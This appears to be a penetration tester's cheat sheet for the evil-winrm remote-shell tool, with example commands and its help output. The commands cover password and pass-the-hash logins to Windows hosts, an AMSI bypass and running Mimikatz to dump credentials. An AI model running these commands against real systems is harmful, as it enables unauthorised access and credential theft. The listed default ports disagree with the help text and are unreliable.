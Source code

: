 

default ports: 5895 and 5896

`evil-winrm -i 192.168.1.10 -u administrator -p password123`

using ssl:
`evil-winrm -i 192.168.1.10 -u administrator -p password123 -S`

Pass the hash:
`evil-winrm -i 192.168.1.10 -u administrator -H 32196B56FFE6F45E294117B91A83BF38`

run powershell example:
```sh
evil-winrm -i 192.168.1.19 -u administrator -p Ignite@987 -s /opt/privsc/powershell
Bypass-4MSI
Invoke-Mimikatz.ps1
Invoke-Mimikatz
```



https://github.com/Hackplayers/evil-winrm
https://www.hackingarticles.in/a-detailed-guide-on-evil-winrm/

to make `menu` have poweshell scripts
`evil-winrm  -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'`

### Help

```sh
┌──(kali㉿kali)-[~]
└─$ evil-winrm -h                                             
                                        
Evil-WinRM shell v3.7

Usage: evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-a USERAGENT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM] [--spn SPN_PREFIX] [-l]
    -S, --ssl                        Enable ssl
    -a, --user-agent USERAGENT       Specify connection user-agent (default Microsoft WinRM Client)
    -c, --pub-key PUBLIC_KEY_PATH    Local path to public key certificate
    -k, --priv-key PRIVATE_KEY_PATH  Local path to private key certificate
    -r, --realm DOMAIN               Kerberos auth, it has to be set also in /etc/krb5.conf file using this format -> CONTOSO.COM = { kdc = fooserver.contoso.com }
    -s, --scripts PS_SCRIPTS_PATH    Powershell scripts local path
        --spn SPN_PREFIX             SPN prefix for Kerberos auth (default HTTP)
    -e, --executables EXES_PATH      C# executables local path
    -i, --ip IP                      Remote host IP or hostname. FQDN for Kerberos auth (required)
    -U, --url URL                    Remote url endpoint (default /wsman)
    -u, --user USER                  Username (required if not using kerberos)
    -p, --password PASS              Password
    -H, --hash HASH                  NTHash
    -P, --port PORT                  Remote host port (default 5985)
    -V, --version                    Show version
    -n, --no-colors                  Disable colors
    -N, --no-rpath-completion        Disable remote path completion
    -l, --log                        Log the WinRM session
    -h, --help                       Display this help message
```
